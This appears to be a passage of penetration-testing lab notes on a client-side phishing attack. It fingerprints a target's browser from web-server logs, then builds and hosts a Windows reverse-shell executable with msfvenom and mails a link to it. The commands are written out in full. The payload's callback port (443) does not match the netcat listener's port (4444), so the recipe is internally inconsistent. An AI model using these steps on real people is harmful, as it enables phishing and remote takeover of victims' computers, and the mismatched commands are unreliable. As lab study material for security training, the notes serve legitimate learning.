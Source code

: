 - To get the browser info either:
	- open a nc listener at `192.168.119.247` port `80`
	- check the `apache2` access log (`/var/log/apache2/access.log`) for `GET` requests
- Result
	```sh
	192.168.247.55 - - [23/Oct/2022:06:14:48 -0400] "GET /fp/fingerprint.html HTTP/1.1" 200 935 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko;"
	```
### Reverse Shell
1. Create and host a Windows PE payload (`.exe` executable) 
```sh
sudo msfvenom -p windows/shell_reverse_tcp lhost=192.168.119.247 lport=443 -f exe -o /var/www/html/evil.exe
```
2. Start a listener with
```sh
sudo nc -lvnp 4444
```
3. Send the phishing email containing the link: http://<IP>/evil.exe
4. Receive a reverse shell on the netcat listener

## Reference
- [Meterpreter Shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#meterpreter-shell)
